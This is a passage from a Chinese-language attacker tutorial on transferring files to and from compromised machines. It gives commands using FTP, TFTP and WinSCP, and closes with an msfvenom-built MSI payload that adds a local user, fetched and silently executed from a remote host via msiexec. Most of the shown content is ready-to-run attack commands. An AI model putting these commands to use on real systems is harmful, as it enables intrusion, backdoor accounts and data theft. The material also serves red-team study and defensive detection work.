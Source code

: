 

**6、FTP **

一般情况下攻击者使用FTP上传文件需要很多交互的步骤，下面这个 bash脚本，考虑到了交互的情况，可以直接执行并不会产生交互动作。

```
ftp 127.0.0.1
username
password
get file
exit
```

![](./image/20200413-6.png)



**7、TFTP**

用来下载远程文件的最简单的网络协议，它基于UDP协议而实现

tftp32服务端下载地址：<http://tftpd32.jounin.net/tftpd32_download.html>

```
tftp -i 你的IP get 要下载文件 存放位置
```

![](./image/20200413-7.png)

**8、WinScp**

WinSCP是一个Windows环境下使用SSH的开源图形化SFTP客户端。

```
#上传
winscp.exe /console /command "option batch continue" "option confirm off" "open sftp://bypass:abc123!@192.168.28.131:22" "option transfer binary" "put D:\1.txt  /tmp/" "exit" /log=log_file.txt 

#下载
winscp.exe /console /command "option batch continue" "option confirm off" "open sftp://bypass:abc123!@192.168.28.131:22" "option transfer binary" "get /tmp D:\test\app\" "exit" /log=log_file.tx
```

使用winscp.exe 作为命令行参数执行远程上传/下载操作。

![](./image/20200413-8.png)



**9、msiexec**

msiexec 支持远程下载功能，将msi文件上传到服务器，通过如下命令远程执行：

~~~
#生成msi包
msfvenom -p windows/exec CMD='net user test abc123! /add' -f msi > evil.msi
#远程执行
msiexec /q /i http://192.168.28.128/evil.msi
~~~
